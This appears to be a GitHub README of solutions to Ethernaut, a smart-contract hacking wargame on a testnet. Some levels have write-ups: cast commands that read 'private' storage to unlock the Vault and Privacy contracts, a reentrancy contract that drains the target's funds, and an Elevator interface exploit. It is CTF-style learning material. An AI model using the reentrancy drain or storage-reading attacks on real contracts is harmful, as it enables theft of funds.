 # Repo of my attack contracts for Ethernaut

## Notes

### Level 01 - Hello Ethernaut

### Level 02 - Fallback

### Level 03 - Coin Flip

### Level 04 - Telephone

### Level 05 - Token

### Level 06 - Delegation

### Level 07 - Force

### Level 08 - Vault

This level demonstrates that all data on the blockchain is public, even if marked as `private` in Solidity.

**Steps to solve:**

1. **Get the contract's storage data**
   - Get the deployed contract address from Ethernaut
   - Use the `cast storage` command to read the value at storage slot 1 (where the password is stored)

   ```bash
   cast storage 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 1 --rpc-url $SEPOLIA_RPC_URL
   ```

   Result:
   ```
   0x412076657279207374726f6e67207365637265742070617373776f7264203a29
   ```

2. **Decode the password**
   - Convert the hex value to ASCII to see the actual password

   ```bash
   cast to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
   ```

   Result:
   ```
   A very strong secret password :)
   ```

3. **Unlock the vault**
   - Call the `unlock()` function with the password as parameter

   ```bash
   cast send 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url $SEPOLIA_RPC_URL
   ```

### Level 10 - Reentrancy
    - The attack exploits a reentrancy vulnerability in the target contract
    - Steps of the attack:
      1. First, we donate ETH to the contract to establish a balance for our attack contract
      2. Then we call withdraw() to start withdrawing our funds
      3. When the target contract sends ETH to our attack contract, it triggers our fallback function
      4. Inside the fallback function, we recursively call withdraw() again before the target contract can update our balance
      5. This creates a loop that drains all funds from the target contract
      6. Once the target contract's balance is less than or equal to our initial donation amount, we withdraw the remaining balance

```solidity
// Key parts of the attack:
function attack() payable public {
    amount = msg.value;
    // First donate to the contract
    CONTRACT.call{value: msg.value}(abi.encodeWithSignature("donate(address)", address(this)));
    // Then withdraw to trigger the reentrancy
    CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", amount));
}

fallback() external payable {
    // Recursive call to withdraw() before balance is updated
    if (CONTRACT.balance > amount) {
        CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", amount));
    }
    else if (CONTRACT.balance <= amount) {
        CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", CONTRACT.balance));
    }
}
```

### Level 11 - Elevator
    - The attack exploits a trust issue in the Elevator contract which relies on an external interface implementation
    - The Elevator contract calls the `isLastFloor()` function of the caller contract twice, expecting consistent behavior
    - Steps of the attack:
      1. We implement the `isLastFloor()` function in our attack contract with state-changing behavior
      2. On the first call, it returns `false` to make the elevator start moving
      3. On the second call, it returns `true` to make the elevator think it reached the top floor
      4. This exploits the fact that the Elevator contract doesn't verify that the Building interface implementation is trustworthy

```solidity
// Key parts of the attack:
bool booly = false;

function attack(uint256 _floor) public {
    (bool success,) = CONTRACT.call(abi.encodeWithSignature("goTo(uint256)", _floor));
    require(success == true, "Tx reverted!");
}

function isLastFloor(uint256) external returns (bool) {
    if(booly == false) {
        booly = true;
        return false;    
    }
    else {
        return true;
    }
}
```

### Level 12 - Privacy

This level demonstrates that all data on the blockchain is public and accessible, even if variables are marked as `private` in Solidity.

**Steps to solve:**

1. **Understand the storage layout**
   - The contract has a `bytes32[3] private data` array
   - The unlock function requires the first 16 bytes of `data[2]` to unlock the contract
   - Due to Solidity's storage layout, `data[2]` is stored at storage slot 5

2. **Read the storage at slot 5 to get data[2]**
   ```bash
   cast storage 0xd02113fA1907e896939c6FA3fD3dBE7E63060c09 5 --rpc-url $SEPOLIA_RPC_URL
   ```

   Result:
   ```
   0x7b16735bad0f51bc24904d07ac5b2329c297b105c1ba46743e3e30215f48f756
   ```

3. **Extract first 16 bytes and call unlock**
   - The `unlock()` function requires bytes16, which is the first half of the bytes32 value
   - Extract the first 32 characters after 0x: `0x7b16735bad0f51bc24904d07ac5b2329`

   ```bash
   cast send 0xd02113fA1907e896939c6FA3fD3dBE7E63060c09 "unlock(bytes16)" 0x7b16735bad0f51bc24904d07ac5b2329 --rpc-url $SEPOLIA_RPC_URL
   ```

   Verification:
   ```bash
   # Check if locked is now false (0)
   cast storage 0xd02113fA1907e896939c6FA3fD3dBE7E63060c09 0 --rpc-url $SEPOLIA_RPC_URL
   # Result: 0x0000000000000000000000000000000000000000000000000000000000000000
   ```

### Level 13 - Gatekeeper One

### Level 14 - Gatekeeper Two

### Level 15 - Naught Coin

### Level 16 - Preservation

### Level 17 - Recovery

### Level 18 - Magic Number

### Level 19 - Alien Codex

### Level 20 - Denial

### Level 21 - Shop

### Level 22 - Dex

### Level 23 - Dex Two

### Level 24 - Puzzle Wallet

### Level 25 - Motorbike

### Level 26 - DoubleEntryPoint

### Level 27 - Good Samaritan

### Level 28 - Gatekeeper Three

### Level 29 - Switch

### Level 30 - HigherOrder

### Level 31 - Stake

### Level 32 - Impersonator

### Level 33 - Magic Animal Carousel